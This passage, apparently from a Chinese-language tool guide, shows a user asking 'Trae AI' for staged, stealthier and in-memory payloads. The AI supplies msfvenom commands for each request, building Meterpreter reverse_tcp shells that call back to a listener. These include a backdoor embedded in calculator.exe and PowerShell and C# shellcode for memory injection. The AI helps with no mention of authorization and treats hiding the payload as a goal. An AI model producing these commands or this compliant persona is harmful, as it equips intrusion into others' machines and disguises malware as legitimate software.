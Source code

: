**用戶提問：**
```
解釋並生成多階段 payload
```

**Trae AI 解釋：**

**Staged Payload 優勢：**
- 初始 payload 體積小
- 可以繞過大小限制
- 更靈活的功能加載

**操作流程：**
```
# Staged Meterpreter (推薦)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o staged.exe

# Stageless Meterpreter (單一文件)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o stageless.exe
```

### 12. 自定義 Payload 模板

**用戶提問：**
```
使用自定義模板生成更隱蔽的 payload
```

**Trae AI 操作流程：**
```
# 使用合法程序作為模板
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x /path/to/legitimate.exe -f exe -k -o templated.exe

# 保持模板功能的同時注入 payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x calculator.exe -f exe -k -o calc_backdoor.exe
```

### 13. 內存注入 Payload

**用戶提問：**
```
生成直接在內存中執行的 payload
```

**Trae AI 操作流程：**
```
# PowerShell 內存注入
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh-reflection -o payload.ps1

# 生成 shellcode 用於注入
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f csharp -o shellcode.cs
```
